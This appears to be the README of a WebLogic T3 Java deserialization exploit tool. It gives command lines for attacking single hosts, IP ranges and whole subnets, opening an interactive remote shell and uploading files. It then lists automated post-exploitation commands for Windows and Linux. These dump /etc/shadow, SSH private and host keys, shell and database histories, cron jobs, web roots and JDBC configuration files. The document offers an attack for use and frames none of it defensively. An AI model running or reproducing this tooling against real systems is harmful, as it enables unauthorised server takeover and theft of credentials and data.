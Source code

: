 # weblogic_java_des
------------
weblogic T3 collections java InvokerTransformer Transformer  InvokerTransformer weblogic.jndi.WLInitialContextFactory

# jdk
------------
jdk 1.6+
# how use?
------------
<code>
<pre>
* 0 、ips 

java  -jar ./bin/jfxl.jar 192.168.10.90:80
java  -jar ./bin/jfxl.jar 192.168.10.90:80;192.168.10.190:7001;192.168.10.33:7001

* 1、cmd shell Interactive -i
java -jar jfxl.jar 119.17.248.52:8080 -i
quit or exit out the shell
[file upload 
put localFileName remouteFileName

if "auto",run
````
win:
"当前目录",
 "cmd.exe /c echo %cd%",
 "当前目录下所有文件",
 "cmd.exe /c dir /s",
"网络ip配置",
"cmd.exe /c ipconfig  /all",
"arp信息",
"cmd.exe /c arp -a",
"主机信息1",
"systeminfo.exe",
"主机信息2",
"cmd.exe /c SYSTEMINFO  ",
"进程信息",
"cmd.exe /c TASKLIST /V",
"服务信息",
"cmd.exe /c sc query",
"网络信息",
"netstat -ano",
"系统环境信息",
"cmd.exe /c set",
linux:
"echo 查看java可以通讯",
 "netstat -anp | grep java | grep ESTABLISHED | grep -v .216 | grep -v LISTENING | grep -v CONNECTED",
 "echo 查看加载的模块",
 "lsmod",
 "echo 看rpc服务开放",
 "rpcinfo -p",
 "echo 补丁情况",
 "rpm -qa",// | grep patch
  "echo 查看服务状态",
  "service --status-all",
 "系统是什么版本?",
 "cat /etc/issue ; cat /etc/*-release ; cat /etc/lsb-release ; cat /etc/redhat-release",
 "是root吗？",
 "cat /etc/sudoers;cat /etc/passwd ;cat /etc/group ;cat /etc/shadow ;ls -alh /var/mail/;ls -ahlR /home/;ls -ahlR /root/",
 "查找mysql数据文件",
 "find /var/lib/mysql/ -regex \".*\\.frm\\|.*\\.idb\\|.*\\.MYI\\|.*\\.MYD\"",
 "历史操作信息",
 "cat ~/.bash_history ;cat ~/.nano_history ;cat ~/.atftp_history ;cat ~/.mysql_history ;cat ~/.php_history ;cat ~/.bashrc ;cat ~/.profile ;cat /var/mail/root ;cat /var/spool/mail/root ;cat ~/.ssh/authorized_keys ;cat ~/.ssh/identity.pub ;cat ~/.ssh/identity ;cat ~/.ssh/id_rsa.pub ;cat ~/.ssh/id_rsa ;cat ~/.ssh/id_dsa.pub ;cat ~/.ssh/id_dsa ;cat /etc/ssh/ssh_config ;cat /etc/ssh/sshd_config ;cat /etc/ssh/ssh_host_dsa_key.pub ;cat /etc/ssh/ssh_host_dsa_key ;cat /etc/ssh/ssh_host_rsa_key.pub ;cat /etc/ssh/ssh_host_rsa_key ;cat /etc/ssh/ssh_host_key.pub ;cat /etc/ssh/ssh_host_key ;ls -alh /var/log ;ls -alh /var/mail ;ls -alh /var/spool ;ls -alh /var/spool/lpd ;ls -alh /var/lib/pgsql ;ls -alh /var/lib/mysql ;cat /var/lib/dhcp3/dhclient.leases ;ls -alhR /var/www/ ;ls -alhR /srv/www/htdocs/ ;ls -alhR /usr/local/www/apache22/data/ ;ls -alhR /opt/lampp/htdocs/ ;ls -alhR /var/www/html/",
 "服务器时间，及当前目录",
 "date;uptime; pwd",
 "echo sshd安装情况",
 "ldd /usr/sbin/sshd",
 "内核版本是什么？",
 "uname -mrs;  dmesg | grep Linux  ; cat /proc/version ; rpm -q kernel ; ls /boot | grep vmlinuz",
 "环境变量里有些什么？",
 "cat /etc/profile ; cat /etc/bashrc ; cat ~/.bash_profile ; cat ~/.bashrc ; env ; set ; cat ~/.bash_logout",
 "文件句柄配置情况",
	"cat /proc/sys/fs/file-nr",
	"缓存？IP和/或MAC地址?",
	"arp -a",
	"当前内存使用情况",
	"free -m;ulimit -n;ulimit -a",
	"主机中的用户名清单",
	"cat /etc/passwd |cut -f 1 -d :", // 查看所有用户
	"Linux块设备的信息.块设备是硬盘和闪驱等之类的存储设备"
	,"lsblk -a"
	,"文件系统信息"
	,"df -h" 
	,"进程、服务信息"
	,"ps -aeo ruser,ppid,pid,lstart,%cpu,%mem,etime,tty,args --sort -%cpu,-%mem;cat /etc/service"
	,"安装的应用信息"
	,"ls -alh /usr/bin/;ls -alh /sbin/;ls -alh /var/cache/yum/;ls -alh /var/cache/apt/archivesO;rpm -qa;dpkg -l"
	,"Service设置，有任何的错误配置吗？是否有任何（脆弱的）的插件？"
	,"cat /etc/syslog.conf ; cat /etc/chttp.conf ; cat /etc/lighttpd.conf ; cat /etc/cups/cupsd.conf ; cat /etc/inetd.conf ; cat /etc/apache2/apache2.conf ; cat /etc/my.conf ; cat /etc/httpd/conf/httpd.conf ; cat /opt/lampp/etc/httpd.conf ; ls -aRl /etc/ | awk ‘$1 ~ /^.*r.*/"
	,"主机上有哪些工作计划？"
	,"ls -alh /var/spool/cron ;ls -al /etc/ | grep cron ;ls -al /etc/cron* ;cat /etc/cron* ;cat /etc/at.allow ;cat /etc/at.deny ;cat /etc/cron.allow ;cat /etc/cron.deny ;cat /etc/crontab;cat /etc/anacrontab;cat /var/spool/cron/crontabs/root;crontab -l"
	,"cpu信息"
	,"cat /proc/cpuinfo"
	,"内存使用情况"
	,"cat /proc/meminfo"
	,"系统的分区信息"
	,"cat /proc/partitions"
	,"网络配置信息"
	,"route;last;lsof -i;cat /etc/services;/sbin/ifconfig -a;cat /etc/network/interfaces;cat /etc/sysconfig/network;cat /etc/resolv.conf;cat /etc/sysconfig/network ;cat /etc/networks ;iptables -L ;hostname ;dnsdomainname"
	," 端口和服务的查看"
	,"netstat -a;chkconfig --list"
	,"大于100M的文件"
	,"find / -type f -size +100000k -exec ls -lh {} \\; | awk  '{ print $9 \":\" $5 }'"
	,"当前目录jdbc"
	,"find . -name jdbc.*",
	"所有jsp文件"
	,"find . -name *.jsp",
	"所有war"
	,"find . -name *.war",
	"所有ear"
	,"find . -name *.ear"
````
*  2、java -jar jfxl.jar 119.177.248.52-155:8080
*  3、java -jar jfxl.jar 119.177.248.52/16:8080
</pre>
</code>

# demo
------------

<img src="https://github.com/hktalent/weblogic_java_des/blob/master/demo/1.jpeg?raw=true" />
